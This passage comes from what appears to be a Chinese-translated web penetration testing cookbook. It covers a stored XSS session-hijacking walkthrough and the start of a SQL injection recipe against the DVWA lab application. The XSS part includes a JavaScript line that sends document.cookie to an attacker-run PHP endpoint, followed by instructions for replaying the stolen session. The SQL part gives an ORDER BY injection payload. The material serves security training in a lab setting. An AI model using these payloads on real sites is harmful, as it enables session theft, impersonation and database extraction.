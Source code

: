    现在我们通过持久性 XSS 攻击劫持了管理员的会话。
    
### 工作原理

简单来说，我们使用应用中的 XSS 漏洞来将会话 Cookie 发送给远程服务器，通过 JavaScript HTTP 请求。这个服务器被配置用于储存会话 Cookie，之后，我们获得一个会话 ID，并把它移植到不同的浏览器中来劫持验证用户的会话。下面，我们来看看每一步如何工作。

我们编写的 PHP 文件用于在 XSS 攻击执行时保存收到的 COokie。

我们输入的评论是一个脚本，使用JavaScript 的XMLHttpRequest 对象来向我们的恶意服务器发送 HTTP 请求，这个请求由两步构建：

```js
xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true );
```

我们使用 GET 方法打开请求，向`http://192.168.56.1/savecookie.php` URL添加叫做`cookie`的参数，它的值储存在`document.cookie`中，它是 JavaScript 中储存cookie值的变量。最后的参数设置为`true`，告诉浏览器这是异步请求，这意味着它不需要等待响应。

```js
xmlHttp.send( null )
```

最后的指令将请求发送给服务器。

在管理员登录并查看包含我们所发送评论的页面之后，脚本会执行，并且管理员的会话 cookie 就储存在我们的服务器中了。

最后，一旦我们获得了有效用户的会话 cookie，我们可以在浏览器中替换我们自己的会话 cookie，之后重新加载页面来执行操作，就像我们是这个用户一样。

### 更多

不仅仅是保存会话 Cookie 到文件，恶意服务器也可以使用这些cookie 来向应用发送请求来冒充正常用户，以便执行操作，例如添加或删除评论、上传图片或创建新用户，甚至是管理员。

## 6.7 逐步执行基本的 SQL 注入

我们在第四章了解了如何检测 SQL 注入。这个秘籍中，我们会利用这个注入，并提取数据库的信息。

### 操作步骤

1.  我们已经知道了 DVWA 存在SQL 注入的漏洞。所以我们使用 OWASP Mantra 登录，之后访问` http://192.168.56.102/dvwa/vulnerabilities/ sqli/`。

2.  在检测 SQL 注入存在之后，下一步就是查询，准确来说就是结果有多少列。在 ID 框中输入任何数字之后点击`Submit`。

3.  现在，打开 HackBar（按下F9）并点击`Load URL`。地址栏中的 URL 应该出现在 HackBar 内。

4.  在 HackBar 中，我们将`id`参数的值替换为` 1' order by 1 -- '`，并点击`Execute`。

5.  我们通过执行请求，持续增加`order`数字后面的值，直到发生错误。这里例子中，它在`3`的时候发生。

    ![](img/6-7-1.jpg)
    